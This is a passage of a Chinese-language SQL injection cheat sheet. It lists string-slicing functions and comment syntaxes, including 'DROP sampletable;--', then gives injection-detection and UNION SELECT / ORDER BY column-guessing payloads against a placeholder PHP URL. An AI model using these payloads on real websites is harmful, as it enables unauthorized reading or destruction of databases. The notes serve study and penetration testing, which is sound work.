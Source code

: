 
## 字符串截取
+ MID()
+ LEFT()
+ SUBSTR()
+ SUBSTRING()

## 注释
### 行间注释
+ -- -  (--后面有个空格)
	+ DROP sampletable;--
+ #
	+ DROP sampletable;#
+ \` (反引号)

### 行内注释
+ /\* \*/
	+DROP/\* 内容 \*/sampletable;
+ /\*! 语句  \*/
	+  /\*! select \* from test \*/
	+ 语句会被执行

# 0x02 注入技术
## 判断是否存在注入
假设有: www.test.com/chybeta.php?id=1
### 数值型注入
```
chybeta.php?id=1+1
chybeta.php?id=-1 or 1=1
chybeta.php?id=-1 or 10-2=8
chybeta.php?id=1 and 1=2
chybeta.php?id=1 and 1=1
```
### 字符型注入
参数被引号包围，我们需要闭合引号。
```
chybeta.php?id=1'
chybeta.php?id=1"
chybeta.php?id=1' and '1'='1
chybeta.php?id=1" and "1"="1
```

## 联合查询
### 查询列数
用UNION SELECT注入时，若后面要注出的数据的列与原数据列数不同，则会失败。所以需要先猜解列数。
#### UNION SELECT
```
UNION SELECT 1,2,3 #
UNION ALL SELECT 1,2,3 #
UNION ALL SELECT null,null,null #
```
#### ORDER BY
利用二分法
```
ORDER BY 10 #
ORDER BY 5  #
ORDER BY 2  #
```